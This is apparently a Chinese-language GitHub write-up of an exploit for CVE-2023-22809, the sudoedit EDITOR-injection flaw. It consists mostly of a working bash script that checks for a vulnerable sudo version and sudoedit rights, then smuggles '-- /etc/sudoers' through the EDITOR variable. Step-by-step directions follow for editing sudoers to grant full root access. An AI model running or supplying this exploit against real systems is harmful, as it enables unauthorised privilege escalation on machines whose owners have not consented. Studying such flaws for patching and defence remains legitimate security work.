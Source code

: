 ## 漏洞利用

### 1.EXP  记得行尾保存为Unix格式

```sh
#!/usr/bin/env bash
#

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi
#判断sudoers里有无test ALL=(ALL:ALL) sudoedit
EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
echo "$EXPLOITABLE"
#下面的payload实际上是EDITOR="vim -- /etc/sudoers" sudoedit
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

2.在上面的exp运行时，按两下回车，会自动打开sudoers的编辑界面。

```
将之前的
test ALL=(ALL:ALL) sudoedit
改为-->
test ALL=(ALL:ALL) ALL
保存退出
```

此时，如果不对sudoers进行编辑，退出时会发现，此时执行了三次sudoedit。

![1693146781832](CVE-2023-22809/1693146781832.png)

